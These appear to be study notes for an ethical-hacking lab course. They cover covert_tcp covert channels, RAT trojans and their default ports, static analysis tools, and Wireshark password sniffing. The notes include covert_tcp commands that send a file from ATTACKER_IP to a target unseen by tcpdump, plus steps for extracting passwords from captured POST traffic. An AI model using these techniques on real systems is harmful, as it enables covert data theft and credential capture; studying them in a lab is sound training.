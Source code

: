### Covert Channels using Covert_TCP

- **Attacker:**
  - Create a file with a secret: echo "Secret"->message.txt
  - Copy and paste **covert_tcp.c**
  - Compile: **cc -o covert_tcp covert_tcp.c**
- **Target:**
  - **tcpdump -nvvx port 8888 -I lo**
  - Copy and paste **covert_tcp.c**
  - Compile: **cc -o covert_tcp covert_tcp.c**
  - **./covert_tcp -dest TARGET_IP -source ATTACKER_IP -source_port 9999 -dest_port 8888 -server -file /home/ubuntu/Desktop/Receive/receive.txt**
  - **Tcpdump captures no packets**
- **Attacker**
  - **./covert_tcp -dest TARGET_IP -source ATTACKER_IP -source_port 8888 -dest_port 9999 -file /home/attacker/Desktop/send/message.txt**
  - Wireshark (message string being send in individual packet)

## Malware Threat

### Gain control over a victim machine using njRAT RAT Trojan
- **njRAT**
  - Default port: 5552

- **ProRAT**
  - Default port: 5110
 
### Create a Trojan server ussing Theef RAT Trojan
- **Theef RAT**
  - Default port: 9871 or 6703
 
### Perform a string search using BinText
- **BinText**
  - Extract text from executable

### Analyze File using Detect It Easy (DIE)
- **DIE**
  - File Entry point, entropy, hash
 
## Module 08: Sniffing

** Password Sniffing using Wireshark**

- **Attacker**
  - Wireshark
- **Target**
  - [xxxxxxxxxxxxx](xxxxxxxxxxxxxxxxx)
  - Login
- **Attacker**
  - Stop capture
  - File->Save as
  - Filter: **http.request.method==POST**
  - Edit->Find Packet-> Find string equals to pwd form field
